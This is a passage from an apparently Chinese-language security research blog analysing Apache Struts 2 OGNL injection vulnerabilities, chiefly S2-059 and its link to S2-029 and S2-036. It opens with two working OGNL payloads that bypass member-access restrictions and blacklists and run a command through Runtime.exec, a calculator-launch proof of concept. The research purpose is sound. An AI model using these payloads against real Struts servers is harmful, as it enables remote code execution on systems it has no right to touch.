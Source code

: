 第二个请求用来发送 payload

```
(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))
```

或者写在同一个请求中发送两次也可：

```
%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('').(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')))}
```


# S2-059

与 S2-029/S2-036 类似的漏洞点。

> 影响版本：Struts 2.0.0 - Struts 2.5.20
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-059
> 描述：不正确的给标签属性添加 OGNL 解析，可能会造成二次解析导致 RCE。

这个漏洞通俗来讲，就是用户在配置模板或者配置文件时，对一些属性和参数使用 “${}” 和 “%{}” 包裹，进行强制计算， 就会导致 OGNL 二次解析。

早在 S2-029 和 S2-036 就有了类似的安全公告，但是我没有去做分析，因为此类漏洞的主要成因是用户的配置错误，就好像 SQL 注入漏洞的成因是用户把不受信任的输入带入了数据库查询语句一样，你只能让开发者背锅，你没办法说是框架的锅。而之前的 S2-012、S2-013、S2-014、S2-015，也可以归结到此类漏洞范围中。

其中 S2-029 官方描述受影响的标签为：

```html
<s:i18nname="%{#request.params}">su18</s:i18n>
<s:textname="%{#request.params}">su18</s:text>
```

S2-036 则描述 tag 内属性使用 `%{...}` 会导致 RCE。

而 S2-059 也是同样的漏洞。描述受影响的标签为 `<s:a id="%{id}">S2-059</s:a>`。简单搭建一个测试环境试一下：

![img](https://oss.javasec.org/images/1625284296478.png)

这个漏洞的实际触发还是在解析标签时由 ComponentTagSupport 的子类（也就是各个标签不同类型）在使用 start 方法解析时，调用了 `Component#findString` 方法导致了表达式的解析。

![img](https://oss.javasec.org/images/1625284296486.png)

漏洞触发和调用过程之前都分析过，都是相似的，在这里就不重复了。我们同时关注一下这个漏洞影响的最高版本 Struts 2.5.20 版本中的安全更新。

在 Struts 2.5.17 之后，官方更新了 excludedClasses 和 excludedPackageNames，在 excludedClasses 中移除了 ognl 包中的内容，但是在 excludedPackageNames 中加入了 `com.opensymphony.xwork2.ognl.` 。

![img](https://oss.javasec.org/images/1625284296490.png)

OnglUtil 中各个属性的 set 方法由 public 改为了 protected。包括三个黑名单属性值，此时我们将不能直接调用 set 方法。
